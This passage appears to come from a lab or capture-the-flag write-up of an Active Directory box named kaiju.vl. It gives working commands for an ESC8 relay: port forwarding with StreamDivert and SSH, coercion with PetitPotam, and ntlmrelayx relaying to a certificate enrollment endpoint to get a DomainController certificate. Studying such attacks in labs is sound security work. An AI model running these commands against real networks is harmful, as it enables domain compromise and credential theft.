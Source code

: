 But we have a domain controller that can't reach our attacker box directly. So we need to port forward 445 from an internal machine to our attacker box.

[https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)

I'm gonna use StreamDivert for this context, just create a file ```toto.txt``` with this :

```console
tcp < 445 0.0.0.0 -> 127.0.0.1 8445
```
And put him on the target

![alt text](<../assets/image_kaiju/10er desktop admin.png>)

But before running StreamDivert we need to do a reverse forward with ssh like that :

```bash
ssh -D 9999 -R 8445:127.0.0.1:445 Administrator@10.10.200.182
```
Ok now run StreamDivert like that :

```powershell
.\StreamDivert.exe toto.txt -f -v
```
Now we can run our ESC8 attack :

[A link here if you dont know how it works](https://www.thehacker.recipes/ad/movement/adcs/unsigned-endpoints#web-endpoint-esc8)

```bash
proxychains -q ntlmrelayx.py -t "http://BERSRV105.kaiju.vl/certsrv/certfnsh.asp" -smb2support --adcs --template "DomainController"

# and on another terminal 

proxychains petitpotam.py -d "kaiju.vl" -u "clare.frost" -p "REDACTED" "10.10.200.182" "10.10.200.181"
```